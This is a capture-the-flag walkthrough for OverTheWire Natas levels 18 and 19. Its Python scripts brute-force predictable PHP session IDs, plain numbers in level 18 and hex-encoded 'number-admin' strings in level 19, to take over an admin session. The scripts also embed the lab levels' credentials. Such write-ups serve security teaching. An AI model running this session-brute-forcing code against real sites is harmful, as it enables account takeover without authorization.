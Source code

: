 ### [Natas 18]
`http://natas18.natas.labs.overthewire.org` \
The trick is that the username and password do not matter! The authentication assigns you a session ID, and that is what is checked on the backend. \
We can see in the source code that the pool of IDs is just up to 640, and therefore we can bruteforce them. \
We intercept the request with Burp, translate it to python and go through all the possible values for the cookie, until we find one that tells us we are admin.

```python
import requests

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Authorization': 'Basic bmF0YXMxODp4dktJcURqeTRPUHY3d0NSZ0RsbWowcEZzQ3NEamhkUA==',
    }

data = 'username=admin&password=xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'

for i in range(1,641):
    cookies = {
    'PHPSESSID': str(i),
    }

    response = requests.post('http://natas18.natas.labs.overthewire.org/index.php', headers=headers, cookies=cookies, data=data)

    if 'regular user' not in response.text:
        print(response.text)
        exit()
```

### [Natas 19]
`http://natas19.natas.labs.overthewire.org` \
The trick is the same as the last challenge, but this time we can't take a look at the code and the session ID isn't just a number anymore. \
After inspecting a few requests with burp, it seems that the new id has the following structure: number-givenUsername. \
This can be seen by taking the cookie value and decoding it as ASCII hex. \
Assuming that the numbers are still up to 640, we want to try all of them with the admin username. The trickier part is to tell python to encode everything in hex.

```python
import requests
import codecs

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Authorization': 'Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==',
    }

data = 'username=admin&password=xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP'

for i in range(1,641):
    session = codecs.encode(bytes(str(i) + '-admin', 'utf-8'),'hex')
    cookies = {
    'PHPSESSID': session.decode("utf-8")
    }

    response = requests.post('http://natas19.natas.labs.overthewire.org/index.php', headers=headers, cookies=cookies, data=data)

    if 'regular' not in response.text:
        print(response.text)
```